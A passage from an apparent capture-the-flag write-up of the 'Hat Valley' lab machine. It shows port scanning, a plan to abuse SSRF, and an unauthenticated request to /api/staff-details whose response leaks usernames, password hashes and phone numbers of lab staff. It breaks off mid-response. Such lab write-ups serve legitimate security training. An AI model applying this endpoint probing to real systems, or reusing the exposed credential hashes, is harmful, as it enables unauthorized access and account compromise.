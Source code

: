 I thought that maybe there were other ports accessible only on the server. I scanned the ports again, this time with nmap, to see if it would detect any filtered port. It did not. 

### Unauthenticated API Call

I was going to write a small script to try requesting all the ports with the SSRF. But I decided to first add more notes on the different API calls. The fact that the status call was working without the token made me think that they were not all using the same code. And maybe some calls were not correctly protected. 

I went through all the API endpoints. I tried with my 'admin' token, with a generated unsigned token, and without any token.

When I got to the staff details endpoint, I got a nice surprise when I requested it without a token.

```http
GET /api/staff-details HTTP/1.1
Host: hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hat-valley.htb/dashboard
```

It worked without the JWT. 

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 15 Jan 2023 12:10:29 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 775
Connection: close
x-powered-by: Express
access-control-allow-origin: *
etag: W/"307-yT9RDkJOX+lsRRlC/J2nEu9d6Is"

[
  {
    "user_id": 1,
    "username": "christine.wool",
    "password": "6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",
    "fullname": "Christine Wool",
    "role": "Founder, CEO",
    "phone": "0415202922"
  },
  {
    "user_id": 2,
    "username": "christopher.jones",
    "password": "e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",
    "fullname": "Christopher Jones",
    "role": "Salesperson",
    "phone": "0456980001"
  },
  {
    "user_id": 3,
    "username": "jackson.lightheart",
    "password": "b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",
    "fullname": "Jackson Lightheart",
    "role": "Salesperson",
    "phone": "0419444111"
  },
  {
    "user_id": 4,
```